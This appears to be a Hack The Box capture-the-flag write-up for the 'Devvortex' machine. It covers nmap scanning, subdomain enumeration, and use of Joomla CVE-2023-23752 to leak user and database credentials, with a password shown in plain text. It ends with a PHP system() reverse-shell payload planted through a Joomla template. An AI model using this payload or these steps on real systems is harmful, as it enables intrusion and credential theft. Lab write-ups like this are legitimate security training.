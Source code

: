 # Devvortex
![Devvortex](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/c8f28c35-9ff8-4f1a-af51-b7013934aedb)

Initial nmap scan
```s
──(kali㉿kali)-[~/Documents/htb_os3/devvortex]
└─$ nmap -Pn -sV -sC 10.10.11.242 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-02 07:22 EST
Stats: 0:00:22 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 07:22 (0:00:06 remaining)
Nmap scan report for 10.10.11.242
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.98 seconds
```


![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/badd88ee-3076-4613-b7d0-68c9609804d7)

Found dev.devvortex.htb subdomain with enumeration.
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/7c2a69b4-6f6d-41f2-b044-2e1aa13afa9b)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/701bc573-5ad9-45c2-89bd-a08593f3ed10)


Directory enumeration on dev subdomain
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/213eeafc-5770-4028-b4a3-c16a99d6cf63)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/b558310d-83f2-4601-ac23-ddc63aef1241)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/e7a5ee19-f346-4495-9014-11f3f12eb4e0)

404
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/b52bf897-1bfe-48ce-9e0d-26f67b6c4a81)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/d851416d-2897-44cc-849d-ecb119651643)


Joomla enumerationg and analysis
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#version
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/e3cff6ed-e3f4-4649-a71e-488afa3b19ad)

"<version>3.0.0</version>"
Possible vulns
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/a3519557-f24d-4a8f-ac37-bd460b692afb)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/2a6b15c8-c267-4c4c-a00a-a5241d7d96e5)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/3d20a155-f422-425f-b405-87b8a813d4fa)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/8499ed45-d418-453d-96b2-1d3d544f67ea)
Verdsion 4.2.6
Well try CVE-2023-23752
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/bb0b8e7b-7512-49ee-8500-a82143b54272)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/264e5360-7d26-4527-9a71-c261ee248100)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/6bd84eaf-ba63-4859-8ee8-589b934b8e53)
![help](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/a6465125-326e-4baf-b833-07ec72587838)
https://www.exploit-db.com/exploits/51334
https://github.com/Acceis/exploit-CVE-2023-23752
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/48c8d6e5-3982-480d-9251-d05134b25373)
```s
Users
[649] lewis (lewis) - lewis@devvortex.htb - Manager
Administrator
Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```
Obtained joomla user and pass. No ssh login with pwnd credentials.
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/ebf0cdb9-cac6-4fd7-baea-b36bf1ebda61)

Now an CE would be nice. Or just some arbitrary file reads.
Using templates change php and then execute by making req
http://dev.devvortex.htb/administrator/templates/atum/error.php
Used bash -c wrapper otherwise session dies instantly.
```s
system('bash  -c "sh -i >& /dev/tcp/10.10.16.26/9898 0>&1"');
```

![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/ced2881a-0a71-466d-b030-37355627a0af)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/0cacbe79-c0ab-485f-9ca1-989d66c66a54)









